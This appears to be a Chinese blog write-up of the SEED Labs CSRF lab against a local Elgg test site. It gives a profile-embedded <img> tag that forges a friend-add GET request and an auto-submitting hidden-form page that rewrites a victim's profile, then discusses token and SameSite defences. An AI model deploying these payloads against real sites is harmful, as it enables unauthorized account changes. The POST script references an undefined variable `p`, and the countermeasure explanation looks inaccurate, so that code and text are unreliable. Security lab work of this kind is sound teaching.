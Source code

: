 ```yaml
---
layout: post
title:  "CSRF"
date:   2020-08-01 00:00:00 +0800
categories: 实验
tags: seedlab csrf
summary: "本文为 SEED Labs 2.0 - Cross-Site Request Forgery Attack Lab 的实验记录，介绍了如何利用 CSRF 攻击加好友和修改用户资料，并探讨了相应的防御措施。"
series: SEEDLabs
series_index: 3
comments: true
mathjax: true
copyrights: 原创
---
```


本文为 [SEED Labs 2.0 - Cross-Site Request Forgery Attack Lab](https://seedsecuritylabs.org/Labs_20.04/Web/Web_CSRF_Elgg/) 的实验记录。

## 实验原理

在客户机和服务器之间进行请求-响应时，两种最常被用到的方法是 GET 和 POST。

- ***GET*** - 从指定的资源请求数据
- ***POST*** - 向指定的资源提交要被处理的数据

## Task 1: Observing HTTP Request

修改 `/etc/hosts`

```shell
sudo vim /etc/hosts
```

更改为

```plaintext
10.9.0.5 www.seed-server.com
10.9.0.5 www.example32.com
10.9.0.105 www.attacker32.com
```

然后启动 docker

```shell
dcbuild
dcup
```

访问 [www.seed-server.com](www.seed-server.com)。

打开 Header live 插件，例如登陆时能看到如下请求。

![csrf1](/assets/post/images/csrf1.webp)

这个内容很简单，不再赘述。

## Task 2: CSRF Attack using GET Request

我们需要加 Alice 为好友。登录 Samy 账号，点进 Alice 主页，点击 Add friend

![csrf2](/assets/post/images/csrf2.webp)

可以看到加好友的方法为 `GET`， url 为 `http://www.seed-server.com/action/friends/add?friend=user id&cookie等`。这里 user id 就是 Alice 的 id。要想让 Alice 加自己，就需要知道自己的 id。

去往 members 页面，<kbd>F12</kbd>查看列表，可以看到用户 id 都被直接明文存储了。

![csrf3](/assets/post/images/csrf3.webp)

我们找到自己的 user id 为 59。这里按照手册，应当去修改 seedlabs 给我们的网页。但其实根本没有必要，我们只需要编辑个人资料，内容如下。

```html
<img src="http://www.seed-server.com/action/friends/add?friend=59">
```

![csrf4](/assets/post/images/csrf4.webp)

`<img>`会自动发送 `GET` 请求。现在登录 Alice 的账号，点进 Samy 的个人资料，可以看到，已经自动加了好友。

![csrf5](/assets/post/images/csrf5.webp)

## Task 3: CSRF Attack using POST Request

我们需要修改 Alice 的 profile。登录 Samy 账号，我们先试着修改自己的 profile。保存后看到发出了如下请求：

![csrf6](/assets/post/images/csrf6.webp)

可以看到修改 profile 方法为 `POST`，url 为 [http://www.seed-server.com/action/profile/edit](http://www.seed-server.com/action/profile/edit)

我们要整一个网页来执行我们的 javasrcipt，编辑 `editprofile.html`

```html
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>";
    fields += "<input type='hidden' name='briefdescription' value='Samy is my hero'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
    fields += "<input type='hidden' name='guid' value='56'>";

    // Create a <form> element
    var form = document.createElement("form");

    // Construct the form
    p.action = "http://www.seed-server.com/action/profile/edit";
    p.innerHTML = fields;
    p.method = "POST";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}

// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post(); }
</script>
</body>
</html>
```

然后修改 profile 如下所示，并添加 [www.attacker32.com/editprofile.html](www.attacker32.com/editprofile.html) 的链接。

![csrf8](/assets/post/images/csrf8.webp)

登录 Alice 账号，假设她闲得慌，点了 Samy 主页的那个链接

![csrf9](/assets/post/images/csrf9.webp)

可以看到，profile 就被自动改掉了。

![csrf10](/assets/post/images/csrf10.webp)

> **Question 1:** The forged HTTP request needs Alice’s user id (guid) to work properly. If Boby targets
> Alice specifically, before the attack, he can find ways to get Alice’s user id. Boby does not know
> Alice’s Elgg password, so he cannot log into Alice’s account to get the information. Please describe
> how Boby can solve this problem.

我们在 Task 2 已经展示过了如何找到 user id。

> **Question 2:** If Boby would like to launch the attack to anybody who visits his malicious web page.
> In this case, he does not know who is visiting the web page beforehand. Can he still launch the CSRF
> attack to modify the victim’s Elgg profile? Please explain.

不可以。注意到，我们修稿 profile 是需要用户的 user id 的，显然大家的 user id 各不相同。

## Task 4: Enabling Elgg’s Countermeasure

进入 `image_www/elgg` 文件夹，编辑 Csrf.php。注释掉第 69 行的 return。

编辑 editprofile.html，让 Alice 修改资料为 Samy is really my hero。

登录 Alice 账号，点击 Samy 主页的链接

![csrf11](/assets/post/images/csrf11.webp)

可以看到，由于验证 cookie，Alice 的 profile 不再可以改变。且因为请求失败就会刷新网页，刷新后再次请求，这个网页在疯狂地循环刷新。

## Task 5: Experimenting with the SameSite Cookie Method

访问 [www.example32.com](www.example32.com)。然后点击各个按钮。

可以看到，对于 same-site request，有 cookie-strict；而 cross-site request 没有。

SameSite cookies 的作用就是限制第三方 cookie，减少安全风险。如果我们想要使用 SameSite cookies，应当设置为 Lax 规则（strict 也可以，但用户体验极差），具体限制内容见下表：

| 请求类型  | Lax         |
| --------- | ----------- |
| 链接      | 发送 Cookie |
| 预加载    | 发送 Cookie |
| GET 表单  | 发送 Cookie |
| POST 表单 | 不发送      |
| iframe    | 不发送      |
| AJAX      | 不发送      |
| Image     | 不发送      |

这样除了导航到目标网址的 GET 请求外，将不会发送 cookie。

## 实验总结

实验原理简单，操作也很简单，没有难度。
